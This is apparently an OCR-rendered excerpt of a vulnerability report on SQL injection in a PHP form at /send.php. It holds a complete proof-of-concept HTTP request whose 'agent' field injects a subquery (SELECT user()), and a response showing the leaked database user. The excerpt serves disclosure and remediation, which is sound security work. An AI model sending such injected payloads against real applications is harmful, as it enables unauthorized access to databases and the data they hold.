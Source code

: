 ```
Structured Query Language (SQL) is a specialized programming language for sending queries to databases. The SQL programming language is both an ANSI and an ISO standard, though many database products supporting SQL do so with proprietary extensions to the standard language. Applications often use user-supplied data to create SQL statements. If an application fails to properly construct SQL statements it is possible for an attacker to alter the statement structure and execute unplanned and potentially hostile commands. When such commands are executed, they do so under the context of the user specified by the application executing the statement. This capability allows attackers to gain control of all database resources accessible by that user, up to and including the ability to execute commands on the hosting system.
###### PoC:
#### Request

```
POST /send.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 62
Cache-Control: max-age=0
sec-ch-ua: "Not.A/Brand";v="99", "Chromium";v="136"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/send.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=ee5875f3660d048db3ac7065cee0dbad
Connection: keep-alive

agent=test','test',(SELECT+user()))+--+a&title=we&message=aaaa
```

#### Response [TRUNCATED]

```test: admin@localhost (by test)```
###### References:
[https://www.owasp.org/index.php/SQL_Injection](https://www.owasp.org/index.php/SQL_Injection)


-------------


##### 4. SQL Injection
###### Severity:
High
###### Description:
SQL Injection is an attack technique used to exploit applications that construct SQL statements from user-supplied input. When successful, the attacker is able to change the logic of SQL statements executed against the database.

```